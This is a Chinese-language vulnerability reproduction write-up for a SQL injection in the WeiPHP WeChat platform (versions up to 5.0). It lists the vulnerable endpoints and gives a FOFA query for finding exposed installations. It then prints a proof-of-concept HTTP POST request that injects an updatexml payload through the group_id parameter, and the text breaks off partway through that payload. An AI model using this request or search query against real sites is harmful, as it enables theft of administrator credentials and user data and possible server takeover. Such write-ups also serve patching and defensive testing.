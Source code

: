 
# WeiPHP 微信开发平台 SQL 注入漏洞复现

### 0x01 产品简介

 weiphp 是一个开源，高效，简洁的微信开发平台，基于 oneThink 内容管理框架实现。

### 0x02 漏洞概述

 weiphp 微信开发平台 \_send\_by\_group、 wp\_where、get\_package\_template 等接口处存在 SQL 注入漏洞，攻击者利用此漏洞可获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

weiphp <=5.0

### 0x04 复现环境

FOFA：app="WeiPHP"

![4f7d20f99e004da7b395562fad542aee.png](assets/1701826206-2dc6d5c94b01727de0c834d3b333ff44.png)

### 0x05 漏洞复现

**PoC-1**

```cobol
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

group_id[0]=exp&group_id[1]=%29+and+updatexml%281
```
